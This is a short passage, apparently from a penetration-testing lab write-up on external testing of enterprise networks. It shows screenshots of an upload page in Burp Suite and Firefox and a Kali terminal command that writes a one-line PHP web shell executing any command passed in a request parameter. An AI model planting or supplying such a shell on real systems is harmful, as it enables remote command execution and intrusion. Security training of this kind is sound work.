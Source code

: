 ![Burp Suite - Upload TRACK 2](./assets/screenshots/attacking_enterprise_networks_external_testing_11.png)

![Firefox - Upload Page](./assets/screenshots/attacking_enterprise_networks_external_testing_12.png)

```
┌──(nabla㉿kali)-[~]
└─$ echo '<?php system($_REQUEST["cmd"]); ?>' | tee shell.php

<?php system($_REQUEST["cmd"]); ?>
```

